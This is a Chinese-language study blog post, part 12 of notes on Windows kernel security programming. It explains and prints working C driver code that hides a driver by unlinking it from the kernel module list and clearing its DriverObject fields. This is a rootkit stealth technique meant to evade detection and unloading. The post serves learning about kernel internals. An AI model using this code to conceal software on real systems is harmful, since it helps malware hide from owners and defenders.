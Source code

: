 ```yaml
---
title: 学习《Windows 内核安全编程技术实践》（12）
date: 2024-02-02 11:04:38
tags: [Windows, Kernel, Driver]
categories: [Learning, Windows 内核安全编程技术实践]
---
```


## 断链隐藏驱动程序自身

本章节参考：[驱动开发：断链隐藏驱动程序自身](https://www.lyshark.com/post/d9ac45b2.html)

### 概念

断链隐藏驱动自身是一种高级的技术，其目的是将驱动自身的模块信息从系统的模块列表中移除，从而使其在系统中不可见。这样做可以增加驱动的隐蔽性，使其更难被检测和卸载。断链隐藏驱动自身也是通过修改驱动模块的链表结构来实现的。

### 实现步骤

具体步骤如下：

1. 获取驱动模块的链表指针。驱动模块的链表可以通过访问 DriverObject->DriverSection 来获取。
2. 修改链表结构。通过修改链表中相邻模块的指针，将自身模块从链表中移除。这样做将使系统无法访问到驱动模块，从而达到隐藏的效果。

### 实现代码

```c
#include <ntifs.h>

HANDLE hThread;

VOID ThreadRun(PVOID StartContext)
{
	LARGE_INTEGER times;
	PDRIVER_OBJECT pDriverObject;

	// 等待3秒  单位是纳秒
	times.QuadPart = -30 * 1000 * 1000;

	KeDelayExecutionThread(KernelMode, FALSE, &times);
	pDriverObject = (PDRIVER_OBJECT)StartContext;

	// 修改模块信息
	pDriverObject->DriverSize = 0;
	pDriverObject->DriverSection = NULL;
	pDriverObject->DriverExtension = NULL;
	pDriverObject->DriverStart = NULL;
	pDriverObject->DriverInit = NULL;
	pDriverObject->FastIoDispatch = NULL;
	pDriverObject->DriverStartIo = NULL;

	ZwClose(hThread);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
	DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
	DbgPrint(("hello lyshark \n"));

	PLIST_ENTRY pModuleList;
	pModuleList = Driver->DriverSection;

	// 前一个模块的Flink=本模块的Flink
	pModuleList->Blink->Flink = pModuleList->Flink;

	// 前一个模块的Blink=本模块的Blink
	pModuleList->Flink->Blink = pModuleList->Blink;
	PsCreateSystemThread(&hThread, GENERIC_ALL, NULL, NULL, NULL, ThreadRun, Driver);

	Driver->DriverUnload = UnDriver;
	return STATUS_SUCCESS;
}

```
